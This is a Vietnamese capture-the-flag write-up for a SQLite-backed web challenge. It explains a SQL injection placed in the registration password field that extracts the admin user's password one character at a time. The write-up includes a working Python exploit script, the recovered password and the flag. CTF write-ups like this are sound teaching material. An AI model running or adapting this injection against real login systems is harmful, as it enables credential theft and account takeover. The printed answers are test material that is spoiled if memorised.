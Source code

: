 ### Solution
Vì bài này sử dụng sqlite nên chúng ta sử dụng `||` để nối chuỗi. Idea là đăng kí username bất kì và substr password của ginkoid. Sau đó login với username đó và password chạy từ a-zA-Z0-9 nếu như login thành công thì chữ cái đó là password của `ginkoid` và tiếp tục như thế đến hết.
Password chỉ không được vượt quá 51 nên chúng ta không thể sử dụng `'||(select substr(password,1,1)from users) limit 1||'`, nhưng vì acccout `ginkoid` ở đầu tiên trong db nên chúng ta chỉ cần `'||(select substr(password,1,1)from users)||'` thì nó sẽ tự động lấy record đầu tiên trong table.

### Payload
```py
import string
import requests
from random import SystemRandom

#nwinY6GFBqOLn55vInCFnraPJzjFZhYw
#flag{44r0n_s4ys_s08r137y_1s_c00l}
rand = SystemRandom()
list_char = set('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ123456789')
passwd = ''

def create_user(username,i):
    url1 = 'https://cool.mc.ax/register'
    data = {'username':username,'password':f"'||(select substr(password,{i},1)from users)||'"}
    # print(data)
    r = requests.post(url=url1, data=data)
    # print(r.text)
    print('done')

def login():
    global passwd

    url2 = 'https://cool.mc.ax/'
    for char in string.ascii_letters+string.digits:
        # print(passwd + char, end='\r')
        data = {'username':username,'password':char}
        # print(data)
        r = requests.post(url=url2, data=data)
        # print(r.text)
        if 'You are logged in' in r.text:
            passwd += char
            print(passwd)
            break
    else:
        pass

for i in range(1,33):
    username = ''.join([rand.choice(list(list_char)) for _ in range(32)])
    create_user(username,i)
    login()
```
Cuối cùng đăng nhập `username=ginkoid&password=nwinY6GFBqOLn55vInCFnraPJzjFZhYw`
flag -> `flag{44r0n_s4ys_s08r137y_1s_c00l}`
